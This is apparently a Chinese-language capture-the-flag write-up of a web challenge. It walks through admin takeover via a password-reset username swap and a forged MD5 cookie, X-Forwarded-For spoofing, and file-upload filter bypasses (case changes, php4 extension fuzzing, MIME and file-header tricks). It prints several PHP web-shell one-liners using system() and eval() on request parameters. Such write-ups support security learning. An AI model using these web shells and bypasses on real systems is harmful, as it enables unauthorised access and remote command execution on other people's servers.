


# bug
这题学到很多,垂直越权,首先有两种方法,获得管理员账号
1.后端检验不完整,在我们先注册一个账号,退到登陆界面:找回密码,输入我们的信息,然后修改密码抓包,这里将用户名改为admin就能成功修改账号(后端校验不完整)
2.注册时注意到

尝试修改cookie从而实现越权
UID:7,实际上是UID:admin格式对应cookie:162e15d9863f48f701ae3b2ae70f7630
那么猜admin的UID:1, 1:admin拿去(MD5)编码得到对应的cookie:4b9987ccafacb8d8fc08d22bbca797ba,

在personnal处抓包修改,显示为admin用户(然后去修改密码)


接下来,登入admin账号,点击Manage提示:

尝试抓包修改X-forward-For头

这里不知道为什么总是不行,改用hackerbar就好了

页面煤站是什么有用的信息,F12看到提示,是一个文件上传

应该是在do选择的行为,文件上传的画尝试upload,成功

可能有限制,但不管是啥先试试加上MIME和文件头

尝试上传,这里要抓包不然没有任何提示,会直接跳转

不能上传php,先尝试正常后缀.png

证明检测到了我们的内容中含有php,尝试一下大小写
成功绕过,也可以尝试一句话木马的其他写法比如
<?= system($_GET['cmd']); ?>
<?= `$_POST['cmd']`; ?>


接下来我们来尝试对文件后缀的绕过,放到inruder对后缀进行FUZZ,
当后缀为php4

又对文件进行了检测,这次试试删掉文件头,仍然不行,改MIME?
Content-Type: application/octet-stream不行,必须为image
看了一下网上的,都使用的另一种php写法
```
<script language='php'>@eval($_POST['cmd'])</script>
```

不知为何?找寻了一下答案,没找到.(实在是不解)
下次记得把每种方式尝试个遍